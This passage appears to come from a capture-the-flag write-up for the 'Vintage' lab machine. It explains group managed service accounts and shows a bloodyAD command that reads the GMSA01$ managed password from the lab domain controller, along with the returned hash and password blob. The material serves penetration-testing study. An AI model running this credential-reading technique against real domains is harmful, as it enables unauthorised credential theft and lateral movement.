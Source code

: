 ### Read Group Managed Service Accounts (GMSA) Password

Now if we check on bloodhound we can see this 

![alt text](../assets/image_vintage/2024-12-01_07-21_bloodhound_fs01.png)

But first, what is **GMSA**

> A gMSA is a special type of service account introduced in Windows Server 2012. It's designed to run services and tasks automatically under a managed account without the need for manual password management.

- The password for a gMSA is complex, long, and automatically managed by Active Directory.
- No human ever needs to know the password — Windows systems retrieve it securely when needed.
- Domain Controllers automatically change the gMSA password periodically (by default every 30 days).
- Only authorized computers can retrieve the password to use the gMSA.

Retrieve the **GMSA01$ hash** like that 

```bash
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3..78
msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
```
Looking again on **bloodhound**
